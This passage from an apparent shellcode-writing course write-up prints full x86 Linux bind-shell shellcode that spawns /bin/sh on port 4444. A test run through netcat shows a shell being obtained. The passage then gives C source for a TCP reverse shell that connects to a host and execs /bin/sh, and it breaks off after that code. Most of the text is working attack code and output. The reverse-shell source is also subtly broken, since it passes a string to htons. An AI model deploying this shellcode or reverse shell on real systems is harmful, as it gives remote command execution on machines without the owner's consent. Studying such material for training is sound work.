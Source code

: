 This script just accepts a port as an argument, then writes it in the \x format to the shellcode. If the provided port is less than or equal to 256, I suggest replacement instructions in order to keep the sockaddr struct valid, as a single byte port will throw off our size, and a port such as 512 would result in 0x2000, which has a null byte. I saw a few fixes people made that were clever-- a template nasm file for instance, but rather than do all that, we can keep it simple. If people really need to be binding to privileged ports, they can with a very small amount of additional work.
``` bash
$ ./portGen.py 4444
[+] Fixed port: \x11\x5c

[+] Shellcode:
\x31\xc0\x31\xdb\x31\xc9\x51\x6a\x01\x6a\x02\x89\xe1\xb0\x66\xb3\x01\xcd\x80\x89\xc6\xb0\x66\xb3\x02\x31\xc9\x51\x66\x68\x11\x5c\x66\x6a\x02\x89\xe7\x6a\x10\x57\x56\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x6a\x05\x56\x89\xe1\xcd\x80\xfe\xc3\xb0\x66\x31\xd2\x52\x52\x56\x89\xe1\xcd\x80\x93\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```

After dropping it into shellcode.c and compiling, here's the output:
``` bash
$ ./shellcode &
[1] 73667
$ Shellcode Length:  111

$ nc -v localhost 4444
localhost [127.0.0.1] 4444 (?) open
id
uid=1000(kali) gid=1000(kali) groups=1000(kali),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),128(lpadmin),132(scanner)
^C
[1]+  Done                    ./shellcode
```


### Task 2: ASM TCP Rev Shell

```C                       
#include <unistd.h>
#include <netinet/in.h>
#include <sys/socket.h>
#include <sys/types.h> 
                       
#define rhost "127.0.0.1"                          
#define rport "4444"   
                       
int main(int argc, char *argv[])                   
{                      
	               
	int sock = socket(AF_INET, SOCK_STREAM, 0);
	               
	struct sockaddr_in sa;                     
	sa.sin_family = AF_INET;                   
	sa.sin_port = htons(rport);                
	               
	inet_pton(AF_INET, rhost, &sa.sin_addr.s_addr);
	               
	connect(sock, (struct sockaddr *)&sa, sizeof(struct sockaddr_in));
	               
	dup2(sock, 0);
	dup2(sock, 1);
	dup2(sock, 2);

	execve("/bin/sh", 0, 0);
}
```
